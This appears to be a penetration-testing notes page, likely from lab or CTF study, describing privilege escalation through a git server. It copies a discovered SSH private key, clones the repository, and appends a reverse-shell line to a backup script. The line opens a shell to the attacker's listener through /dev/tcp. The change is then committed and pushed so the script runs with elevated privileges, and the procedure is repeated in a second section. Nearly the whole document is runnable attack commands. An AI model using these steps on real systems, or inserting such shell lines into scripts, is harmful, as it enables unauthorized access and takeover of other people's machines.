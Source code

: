 #### Git user exists

A git user appears in the /home directory.

![[Pasted image 20220319230833.png]]

Let's copy the .ssh/id_rsa file to kali, then use it to ssh in.

```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh git@$TARGET -i id_rsa -p 22
```

Now that we have confirmed this works, we can use GIT SSH to clone the repository down to kali.

```bash - kali
GIT_SSH_COMMAND='ssh -i id_rsa -p 22' git clone git@$TARGET:/git-server
```

![[Pasted image 20221110090941.png]]

```bash - kali
cd git-server
```

Configure our Git identity.
```bash - kali
git config --global user.name "kali"
```

```bash - kali
git config --global user.email "kali@kali.(none)"
```

Echo in our reverse shell.
```bash - kali
echo "sh -i >& /dev/tcp/$KALI/8080 0>&1" >> backups.sh 
```

```bash - kali
chmod +x backups.sh
```

Now we add and commit changes.
```bash - kali
git add -A
```

```bash - kali
git commit -m "pwn"
```

![[Pasted image 20221110091030.png]]

```bash - kali
sudo rlwrap -cAr nc -lvnp 8080
```

```bash - kali
GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
```

![[Pasted image 20220319232925.png]]

#### Have commit privs

![[Pasted image 20220319230106.png]]

```bash - kali
git clone file://git-server
```

```bash - kali
ls -la git-server
```

```bash - kali
cd git-server
```

```bash - kali
git log
```

```bash - kali
cat backup.sh
```

```bash - kali
git config --global user.name "$USER"
```

>git config --global user.name "hacker"

```bash - kali
git config --global user.email "$USER@$HOSTNAME.(none)"
```

>git config --global user.email "hacker@targetbox1.(none)"

Run a test command for root execution.
```bash - kali
echo "sh -i >& /dev/tcp/$KALI/8080 0>&1" >> backups.sh 
```

```bash - kali
chmod +x backups.sh 
```

```bash - kali
git add -A
```

```bash - kali
git commit -m "pwn"
```

If this method fails, try [[13._Git Server#Git user exists]]

```bash - kali
sudo rlwrap -cAr nc -lvnp 8080
```

```bash - target
git push origin master
```
